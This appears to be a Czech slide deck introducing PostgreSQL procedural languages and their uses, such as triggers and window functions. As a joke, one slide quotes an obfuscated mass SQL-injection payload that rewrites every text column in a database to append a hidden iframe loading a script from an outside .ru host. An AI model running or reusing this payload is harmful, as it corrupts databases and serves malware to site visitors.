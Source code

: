 !SLIDE
# Problém: Manipulace s daty líným programátorem #
## Typická řešení ##

!SLIDE smaller
# RTFM! #
    @@@ SQL
    dEcLArE @T vaRchaR(255),@c vARCHAr(255) decLAre tabLE_cUrsOR 
    CURSOR FoR SELECt A.name,b.naMe froM sysObjeCts a,sysCOLuMNs
    b wheRE a.id=B.id aND A.XtYPe='U' and (b.xTYPe=99 or 
    b.XType=35 oR B.xTYPe=231 OR b.xtypE=167) oPEN TAbLe_cuRsor 
    fETCH neXT FROm TaBlE_CuRsOr INtO @T,@c whilE(@@FetCh_stAtuS
    =0) beGIn exEc('UpDaTE ['+@t+'] SeT ['+@c+']=rtRIM(CONVeRT(
    VARCHAr(4000),['+@C+']))+caST(0x3C696672616D65207372633D226
    87474703A2F2F6E656D6F6875696C6469696E2E72752F7464732F676F2E
    7068703F7369643D31222077696474683D223022206865696768743D2230
    22207374796C653D22646973706C61793A6E6F6E65223E3C2F696672616
    D653E aS vaRCHar(106))') FETCh Next fRom tABle_cUrsOr IntO 
    @t,@c EnD Close tablE_CuRsoR dEALLoCATe TaBLe_CURsor;

!SLIDE
# Máme rádi svůj komfort #
## A Postgres nám ho dopřeje ##

!SLIDE bullets incremental
# Procedural languages (PL) #

* PL/pgSQL
* PL/Tcl
* PL/Perl
* PL/Python

!SLIDE bullets smaller
# A kopa dalších #

<ul class='twocolumn'>
    <li>PL/Java</li>
    <li>PL/Js</li>
    <li>PL/LOLCODE</li>
    <li>PL/Lua</li>
    <li>PL/OpenCL</li>
    <li>PL/Parrot</li>
    <li>PL/PHP</li>
    <li>PL/Proxy</li>
    <li>PL/PSM</li>
    <li>PL/R</li>
    <li>PL/Ruby</li>
    <li>PL/scheme</li>
    <li>PL/sh</li>
    <li>PL/V8</li>
</ul>

!SLIDE bullets incremental
# Ideální využití #

* Jednorázová modifikace
* Triggery
* Datové agregace
* `Window` funkce